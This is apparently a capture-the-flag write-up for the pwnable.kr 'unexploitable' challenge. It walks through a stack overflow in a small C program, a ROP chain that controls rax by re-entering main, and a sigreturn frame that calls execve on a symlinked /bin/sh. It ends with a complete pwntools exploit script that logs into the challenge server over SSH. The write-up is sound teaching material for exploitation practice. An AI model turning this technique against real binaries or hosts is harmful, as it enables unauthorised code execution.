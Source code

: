 
# unexploitable

First lets see what we are working on

```c
#include <stdio.h>
void main(){
        // no brute forcing
        sleep(3);
        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
```

Seems like a simple challenge, We have a buffer of 4 integers, but we can reads 1295 bytes into it.
So lets overflow the buffer and override the return address!
but, what should we put in there?

![checksec.png](images/checksec.png)

Problems:
- ASLR enabled which means we cannot jump to our own buffer cause its address is unkown
- NX is enabled, which means even if we found a way to leak an address in the stack, we cant put shellcode and jump

So in this case we have to find a gadget!
I first thought maybe we can leak libc and jump to system, but after running `ROPGadget` I quickly saw:

![syscall_gadget.png](images/syscall_gadget.png)

Its a really good gadget for us, but we still cant control any register,
In order to run a shell, we need to control `rax` and  `rdi`

First i tried to figure out how can i get arbitrary syscall, which means i need to control `rax`
this part wasnt that hard, lets figure how to override the return address:

![ret_override.png](images/ret_override.png)

![finding_offset.png](images/finding_offset.png)

So we need to put 24 bytes, and the next 8 bytes will be the ret.
Now we can do something like that:

`24 bytes -> Address to main -> Address to syscall gadget`

Why are we umping to main again?
Since `rax` is the return value in 64bit calling convention,
We can re-run main, but now main return address is the syscall gadget,
in main we are calling for read, so the amount of bytes we will put in this read, will be `rax`

Now we can call any syscall we want, but we have control only over the stack and not the registers..
Sounds like a perfect time to call `Sigreturn` !

So our first payload needs to be:
`24 bytes -> Address to main -> Address to syscall gadget -> sigreturn frame`

And since we are jumping to main again, the second payload is:
`15*'a'`

The sigreturn frame looks like:
```python
frame.rax = 59
frame.rdi = ??
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget
```

We are close, we just need to figure out how can we find and address which points to `/bin/sh`
I ran: 
![memory_map.png](images/memory_map.png)
and then:
![finding_string.png](images/finding_string.png)
And i found this string in our binary:
![found_string.png](images/found_string.png)

So we can just create a symlink from `/bin/sh` to `8` and then we can put in `rdi` the address  `0x600036` 

and we won!

```python
#!/usr/bin/python3

from pwn import *
import time

context.arch = 'amd64'
binary = ELF("./unexploitable")

syscall_gadget  = 0x400560
read_addr = binary.sym['main']
size = 24

frame = SigreturnFrame(kernel='amd64')

  
frame.rax = 59
frame.rdi = 0x600036
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = syscall_gadget

s = ssh(host="pwnable.kr", port=2222, user='unexploitable', password='guest')
context.ssh_session = s
s.set_working_directory()

unexploitable_link = SSHPath('unexploitable')
unexploitable_link.symlink_to('/home/unexploitable/unexploitable')

sh = SSHPath('8')
sh.symlink_to('/bin/sh')

p = s.process(["./unexploitable"])

payload = b'a'*size + p64(read_addr) + p64(syscall_gadget) + bytes(frame)
p.sendline(payload)
time.sleep(5)

p.sendline(b'a'*14)
p.interactive()
```

![win.png](images/win.png)